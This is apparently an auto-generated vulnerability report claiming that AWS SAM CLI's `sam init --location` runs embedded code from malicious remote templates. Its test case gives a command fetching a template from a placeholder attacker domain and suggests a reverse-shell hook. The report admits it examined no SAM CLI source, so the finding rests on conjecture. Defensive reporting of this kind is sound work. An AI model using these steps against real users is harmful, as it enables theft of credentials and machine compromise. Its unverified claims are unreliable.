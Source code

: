 ### Vulnerability List

- Vulnerability Name: Local Code Execution via Malicious Template

- Description:
    1. An attacker creates a malicious AWS SAM application template.
    2. This malicious template contains embedded code, such as scripts or executables, within its files (e.g., in post-generation hooks, setup scripts, or directly within template files intended to be processed by cookiecutter or similar templating engines).
    3. The attacker hosts this malicious template in a publicly accessible location (e.g., GitHub repository, S3 bucket).
    4. A victim user, intending to create a new AWS SAM project, uses the `sam init --location <attacker_template_url>` command, pointing to the attacker's malicious template URL.
    5. SAM CLI fetches and processes the template. If the malicious template is crafted to exploit template processing or post-generation steps, the embedded code is executed on the victim's local machine during the project initialization process, without the user's explicit consent or knowledge.

- Impact:
    - **Critical**: Successful exploitation leads to arbitrary local code execution on the victim's machine. This can allow the attacker to:
        - Steal sensitive data, including AWS credentials, API keys, personal files, and source code.
        - Install malware, backdoors, or ransomware.
        - Modify or delete critical system files.
        - Pivot to other systems or networks accessible from the victim's machine.
        - Compromise the victim's development environment and potentially their entire machine.

- Vulnerability Rank: Critical

- Currently Implemented Mitigations:
    - None in the provided project files. The project only contains application templates, not the SAM CLI code itself, so no mitigations are implemented within these files.

- Missing Mitigations:
    - **Input Validation and Sanitization**: SAM CLI should thoroughly validate and sanitize the content of fetched templates before processing them. This includes scanning for and neutralizing potentially malicious code or scripts embedded within template files.
    - **Sandboxing or Isolation**: Project initialization from remote templates should be executed in a sandboxed or isolated environment to prevent or limit the impact of malicious code execution on the user's system. Consider using secure containers or virtual machines for template processing.
    - **User Awareness and Warnings**: Implement clear warnings to users when using `--location` flag to initialize projects from external sources, emphasizing the potential security risks associated with untrusted templates and advising users to only use templates from trusted sources.
    - **Content Security Policy (CSP) for Templates**: Explore the feasibility of implementing a Content Security Policy for application templates to restrict the types of code and resources that templates can include and execute.
    - **Template Review and Scanning**: Implement a mechanism to allow template authors to submit their templates for security review and scanning before being listed or promoted as official templates. SAM CLI could also perform automated security scans on templates fetched from external URLs.

- Preconditions:
    1. The victim user must have AWS SAM CLI installed and configured on their local machine.
    2. The victim user must execute the `sam init --location <attacker_template_url>` command, being lured into using a malicious template URL provided by the attacker.
    3. The attacker must have created and hosted a malicious AWS SAM template in a publicly accessible location.

- Source Code Analysis:
    - The provided PROJECT FILES are mainly documentation and example templates and do not contain the source code of SAM CLI itself. Therefore, source code analysis of these files is not directly relevant to this vulnerability.
    - To perform a source code analysis for this vulnerability, the SAM CLI source code (likely in Python) would need to be examined, specifically the parts that handle the `sam init --location` command, template fetching, and processing logic.
    - **Conceptual Code Flow (within SAM CLI - hypothetical):**
        ```python
        def init_project_from_location(template_url, project_name):
            template_content = fetch_template(template_url) # Fetches template from URL
            # Missing vulnerability: Lack of security checks and sanitization on template_content
            process_template(template_content, project_name) # Processes and renders template, potentially executing embedded code
            # ... rest of initialization process
        ```
    - The vulnerability lies in the `process_template` function (or equivalent) where malicious code within the template can be executed without proper security measures.

- Security Test Case:
    1. **Attacker Setup:**
        - Create a malicious AWS SAM template (e.g., `malicious-template.zip`) for dotnet8 runtime.
        - Embed malicious code within the template. For example, in `template.yaml`, add a post-create hook that executes a reverse shell script or simply creates a file in the user's home directory.
        - Host `malicious-template.zip` on a public GitHub repository or S3 bucket (e.g., `https://<attacker-controlled-domain>/malicious-template.zip`).
    2. **Victim Action:**
        - On a local machine with AWS SAM CLI installed, execute the command: `sam init --no-input --location https://<attacker-controlled-domain>/malicious-template.zip --name test-project`
    3. **Verification:**
        - Observe the victim's machine for signs of code execution.
        - For the example of creating a file, check if the file is created in the user's home directory.
        - For a more advanced test, set up a listener and check if a reverse shell connection is established from the victim's machine.
    4. **Expected Result:**
        - The malicious code embedded in the template gets executed on the victim's local machine, demonstrating local code execution vulnerability.